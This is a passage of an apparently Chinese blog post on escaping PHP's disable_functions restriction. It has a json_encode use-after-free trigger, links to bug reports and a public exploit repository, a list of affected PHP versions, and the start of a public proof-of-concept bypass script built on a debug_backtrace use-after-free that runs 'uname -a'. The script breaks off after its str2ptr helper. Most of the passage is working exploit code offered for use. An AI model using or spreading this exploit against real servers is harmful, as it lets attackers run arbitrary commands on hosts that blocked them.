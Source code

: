 ```php
$y = [new Z()];
json_encode([&$y]);
```
![](https://img-blog.csdnimg.cn/20201009182938672.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20201009182953116.png#pic_center)

参考：
[Bug #77843 	Use after free with json serializer](https://bugs.php.net/bug.php?id=77843)
[php-json-bypass](https://github.com/mm0r1/exploits/blob/master/php-json-bypass/exploit.php)

#### Backtrace UAF
>php版本：
7.0 - all versions to date
7.1 - all versions to date
7.2 - all versions to date
7.3 < 7.3.15 (released 20 Feb 2020)
7.4 < 7.4.3 (released 20 Feb 2020)

绕过脚本如下：
```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

```